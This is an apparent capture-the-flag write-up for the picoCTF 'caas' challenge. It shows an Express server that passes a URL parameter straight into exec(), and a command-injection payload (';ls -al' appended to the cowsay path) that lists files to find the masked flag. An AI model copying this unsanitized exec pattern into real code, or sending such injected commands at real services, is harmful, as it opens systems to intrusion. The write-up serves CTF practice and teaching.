

# Challenge: [caas](https://play.picoctf.org/practice/challenge/202)
150 Points
# Description
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
# Solution
First, take a look at the provided .js file do the function that learning at port 3000 and put user parameter in URL into exec() to excute command cowsay at the path /usr/games/cowsay. 

```js
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

Not very difficult to understand, head to the challenge link. The content in website tell me enter something to URL https://caas.mars.picoctf.net/cowsay/{message}



Some informations above make me think about command injection. After a few attemps, here is my payload to exploite.

`https://caas.mars.picoctf.net/cowsay/{whaever};ls%20-al`

The flag is in one of the files printed when you send a request like above.

The flag is: picoCTF{*************}